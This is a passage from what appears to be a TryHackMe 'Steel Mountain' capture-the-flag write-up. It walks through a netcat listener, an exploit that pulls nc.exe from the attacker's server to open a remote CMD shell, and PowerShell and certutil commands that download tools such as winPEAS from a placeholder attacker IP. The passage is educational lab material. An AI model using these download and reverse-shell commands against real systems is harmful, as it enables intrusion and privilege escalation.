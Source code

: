 Start a **netcat** listener on the port you declared in the **python** file.
<br>Run it twice. At first run the server will download **nc.exe** static binary from your server. At second, it will run
**nc.exe** to connect to your local machine by providing a CMD prompt.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/21.jpg){:.normal}<br><br>

<br>It is possible to use PowerUp.ps1 again or **winPEAS.bat** can be used to enumerate misconfigurations.
<br>You can download any file from the running python server by using one of these utilites.

{% highlight powershell %}
powershell -c "Invoke-WebRequest -URI {YOUR SERVER IP(THM IP)}:80/{THE FILE YOU WANT TO DOWNLOAD} -OutFile {THE PATH WHERE THE FILE WILL BE SAVED}"
{% endhighlight %}

{% highlight powershell %}
certutil.exe -urlcache -split -f http://{YOUR SERVER IP(THM IP)}:80/{THE FILE YOU WANT TO DOWNLOAD}
{% endhighlight %}

<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/22.jpg){:.normal}<br><br>
As it can be seen from the output, this time, winPEAS provided the information about the vulnerability on **Advanced System Care9**
service and many others.